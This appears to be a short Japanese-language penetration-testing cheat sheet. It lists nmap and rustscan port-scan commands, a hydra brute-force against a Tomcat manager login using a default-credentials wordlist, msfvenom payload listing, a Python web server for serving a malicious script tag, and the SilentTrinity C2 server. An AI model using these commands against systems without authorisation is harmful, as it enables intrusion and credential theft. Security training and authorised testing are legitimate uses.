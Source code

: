 # Cheat Sheet


## Portscan

### nmap
- 全ポートスキャン: `nmap -sS -A -T4 -Pn -p- $IP`
- 特定ポートのチェック: `sudo nmap -sS -A -p[port] --script vuln $IP`

### rustscan
- installation: `sudo snap install -y rustscan`
- 全ポートスキャン: `rustscan -a $IP -- -Pn -A`

## Password Cracking

### hydra
- webサービスで総当たりする，
- Basic認証総当たり(`user:pass`形式のコーパス): `hydra -C ~/tools/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-post://$IP:8080/manager/html`


## Exploitation

### msfvenom
- metasploitのペイロードを取れる
- ペイロードの列挙: `msfvenom -l payloads`


## Reverse shells

### SimpleHTTPserver
- カレントディレクトリをルートとした簡易Webサーバを立てることができる．
  - ```sudo python -m SimpleHTTPServer [port]```
- 対象サーバで```<script src="http://.../a.js">```により任意の悪意のあるJavaScriptを実行させることなどが可能

### SilentTrinity
- C2 server を立てることができる
